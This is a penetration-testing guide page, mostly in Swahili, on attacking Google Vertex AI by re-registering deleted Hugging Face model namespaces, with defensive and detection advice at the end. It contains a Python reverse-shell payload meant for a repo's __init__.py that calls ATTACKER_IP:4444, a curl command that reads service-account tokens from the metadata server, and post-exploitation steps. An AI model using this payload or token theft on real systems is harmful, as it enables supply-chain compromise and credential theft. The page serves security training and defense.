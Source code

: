 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Mfano

- Vertex AI Model Garden inaruhusu uenezaji wa moja kwa moja wa modeli nyingi za Hugging Face (HF).
- HF model identifiers are Author/ModelName. Ikiwa author/org kwenye HF imefutwa, jina hilo la author linaweza kusajiliwa tena na mtu yeyote. Washambuliaji wanaweza kisha kuunda repo yenye ModelName sawa kwenye legacy path.
- pipelines, SDKs, au cloud catalogs ambazo zinapiga request kwa jina tu (hakuna pinning/integrity) zitatokeza repo iliyodhibitiwa na mshambuliaji. Wakati modeli itakapotekelezwa, loader code kutoka kwa repo hiyo inaweza kutekelezwa ndani ya Vertex AI endpoint container, ikitoa RCE pamoja na ruhusa za endpoint.

Miundo miwili ya kawaida ya takeover kwenye HF:
- Uondoaji wa umiliki: Old path 404 hadi mtu asijisajilishe tena kama author na kuchapisha ModelName sawa.
- Uhamisho wa umiliki: HF inatoa 307 redirects kutoka old Author/ModelName kwenda kwa author mpya. Ikiwa author wa zamani baadaye afutwe na kusajiliwa tena na mshambuliaji, mnyororo wa redirect utavunjika na repo ya mshambuliaji itahudumia kwenye legacy path.

## Kutambua Namespaces Zinazoweza Kutumika Tena (HF)

- Old author deleted: ukurasa wa author unarudisha 404; model path inaweza kurudisha 404 hadi takeover.
- Transferred models: old model path inatoa 307 kwenda kwa mmiliki mpya wakati author wa zamani bado yupo. Ikiwa author wa zamani baadaye afutwe na kusajiliwa tena, legacy path itatangazwa kwa repo ya mshambuliaji.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Mtiririko kamili wa shambulio dhidi ya Vertex AI

1) Gundua namespaces za modeli zinazoweza kutumika tena ambazo Model Garden inaorodhesha kama zinazoweza ku-deploy:
- Tafuta modeli za HF katika Vertex AI Model Garden ambazo bado zinaonyesha kama “verified deployable”.
- Thibitisha kwenye HF ikiwa mwandishi wa asili ameondolewa au ikiwa modeli ilihamishwa na mwandishi wa zamani baadaye kuondolewa.

2) Sajili tena mwandishi aliyeondolewa kwenye HF na uunde tena ModelName ile ile.

3) Chapisha repo yenye madhara. Jumuisha code inayotekelezwa wakati wa kupakia modeli. Mifano inayotekelezwa mara kwa mara wakati wa kupakia modeli za HF:
- Side effects katika __init__.py ya repo
- modeling_*.py maalum au code ya processing inayorejelewa na config/auto_map
- Njia za code zinazohitaji trust_remote_code=True katika Transformers pipelines

4) Deployment ya Vertex AI ya Author/ModelName ya zamani sasa inavuta repo ya mshambuliaji. Loader inatekelezwa ndani ya container ya endpoint ya Vertex AI.

5) Payload inapanua ufikiaji kutoka kwa mazingira ya endpoint (RCE) kwa ruhusa za endpoint.

Mfano wa kipande cha payload kinachotekelezwa kwa import (kwa ajili ya maonyesho tu):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Vidokezo
- Loaders za maisha halisi zinatofautiana. Integrations nyingi za Vertex AI HF hufanya clone na kuimport modules za repo zinazorejelewa na config ya modeli (mfano, auto_map), ambayo inaweza kusababisha execution ya code. Matumizi mengine yanahitaji trust_remote_code=True.
- Endpoint kwa kawaida inaendesha ndani ya container maalum yenye wigo mdogo, lakini ni foothold halali ya awali kwa upatikanaji wa data na movement ya upande upande ndani ya GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Mara tu code inapokuwa ikifanya kazi ndani ya endpoint container, fikiria:
- Kuorodhesha environment variables na metadata kwa ajili ya credentials/tokens
- Kupata attached storage au mounted model artifacts
- Kushirikiana na Google APIs kupitia service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistence katika model artifact ikiwa platform itarudisha repo

Orodhesha instance metadata ikiwa inapatikana (container dependent):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Mwongozo wa Ulinzi kwa Watumiaji wa Vertex AI

- Pin modeli kwa commit katika HF loaders ili kuzuia ubadilishaji kimya:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Nakilisha HF models zilizothibitishwa kwenye trusted internal artifact store/registry na uzizindue kutoka huko.
- Endelea kupiga skani codebases na configs kwa ajili ya hard-coded Author/ModelName ambazo zimefutwa/hamishwa; sasisha hadi namespaces mpya au ziweke pinned kwa commit.
- Kwenye Model Garden, hakikisha provenance ya model na uwepo wa author kabla ya deployment.

## Vigezo vya Utambuzi (HTTP)

- Author iliyofutwa: ukurasa wa author 404; legacy model path 404 hadi takeover.
- Model iliyohamishwa: legacy path 307 kwa author mpya wakati author wa zamani bado yupo; ikiwa author wa zamani baadaye afutwe na kujiandikisha tena, legacy path itahudumia maudhui ya mshambuliaji.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Marejeo ya Msalaba

- Angalia mbinu pana na vidokezo vya mnyororo wa usambazaji:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Marejeo

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
